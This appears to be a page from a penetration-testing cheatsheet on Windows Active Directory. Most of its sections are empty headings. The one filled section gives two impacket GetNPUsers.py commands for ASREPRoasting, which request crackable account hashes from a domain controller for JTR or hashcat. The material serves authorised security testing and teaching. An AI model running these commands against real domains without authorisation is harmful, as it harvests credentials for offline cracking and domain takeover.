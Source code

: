 ```yaml
---
layout: default
parent: Windows
grand_parent: Pentest Cheatsheets
title: Windows Active Directory
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

**Enumeration**
===============

**anonymous**
--------------


**Authenticated - Unpriv**
--------------------------


**Authenticated - Priv**
------------------------


**Attacks**
==============

**ASREPRoast**
--------------

Using **impacket** GetNPUsers.py with anonymous LDAP access. Output file is in default format which is JTR format

<details>
<summary><u>More Info</u></summary>
<p>
TARGET_DOMAIN - FQDN of target domain as structured domain.tld
<br>
DC_IP - IP of domain controller you want to run against
</p>
</details>

```
python3 GetNPUsers.py TARGET_DOMAIN/ -dc-ip DC_IP -request -outputfile TARGET_FILE.hash
```

Still **impacket** GetNPUsers.py with authenticated LDAP access. Output file is in is instead formatted for hashcat

```
python GetNPUsers.py TARGET_DOMAIN/USER_NAME:USER_PASS -request -format hashcat -outputfile TARGET_FILE.hash
```

**Kerberoasting**
--------------

```
```
